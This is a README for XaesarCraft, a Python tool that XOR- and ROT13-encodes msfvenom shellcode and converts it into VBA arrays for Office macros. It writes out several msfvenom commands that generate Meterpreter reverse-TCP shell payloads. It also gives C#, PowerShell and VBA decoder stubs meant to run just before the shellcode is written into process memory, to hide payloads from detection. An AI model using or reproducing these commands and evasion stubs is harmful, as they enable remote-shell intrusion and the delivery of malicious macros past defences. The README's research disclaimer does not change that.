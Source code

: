 # XaesarCraft

XaesarCraft is a Python script that enables you to apply different cryptographic operations (XOR, ROT13, or a combination of these algorithms - XOROT) to byte arrays and outputs the results in various formats. 
This tool is useful for processing payloads, especially those generated by msfvenom, in csharp or ps1 formats. Additionally, XaesarCraft can convert the payload into an array format suitable for VBA scripts.

## Disclaimer

This tool is intended for educational and research purposes only. It should not be used for any illegal activities. The author is not responsible for any misuse or damage caused by this program.

## Key Features:

1. Apply XOR, ROT13, or XOROT operations to payloads generated by msfvenom in csharp or ps1 formats
2. Convert payloads into VBA array format
4. Supports custom key for operations ( one for both )
5. Output results in Base64 encoding


## Example of usage:

```
# Using XOROT with default keys (13 for ROT13;) and 0xfa for XOR) to process a payload generated by msfvenom 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py 

# Using XOROT with default keys to process a payload generated by msfvenom and return result in VBA array for your macros
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py --vba

# Using only ROT13 with custom key (0x13) to process a payload generated by msfvenom 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py -m rot -n 0x13

# Using XOROT with a custom key (0x13) to process a payload generated by msfvenom and retrun payload base64 encoded
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py -n 0x13 --b64

# Process an input string directly (e.g. a payload snippet), other keys aplies too
python3 XaesarCraft.py --input "[Byte[]] $buf = 0xf8,0xa5,0x6c,0x11,0xfc,0x05" 
```

## Decryption Codes
Decryption codes for the default mode only(!) (C#, PowerShell, VBA). It's recommended to use them just before writing to process memory;):

C#
```
byte xorValue = 0xfa; int rot = 13;
for (int i = 0; i < buf.Length; i++) { buf[i] = (byte)(buf[i] ^ xorValue); }
for (int i = 0; i < buf.Length; i++) { buf[i] = (byte)(((uint)buf[i] + rot)); }
```
PowerShell
```
$xorValue = 0xfa; $rot = 13; 
for ($i=0; $i -lt $buf.Length; $i++) { $buf[$i] = [byte]($buf[$i] -bxor $xorValue); }
for ($i=0; $i -lt $buf.Length; $i++) { $buf[$i] = [byte](([uint32]$buf[$i] + $rot)); }
```
VBA
```
Dim xorValue As Byte: xorValue = &Hfa
Dim rot As Integer: rot = 13
For i = 0 To UBound(buf): buf(i) = buf(i) Xor xorValue: Next i
For i = 0 To UBound(buf): buf(i) = (buf(i) + rot) Mod 256: Next i
```
## Target Audience

Designed for security researchers, penetration testers, and cybersecurity specialists, XaesarCraft offers comprehensive solutions for effectively creating and obscuring payloads, ensuring high levels of anonymity and protection.
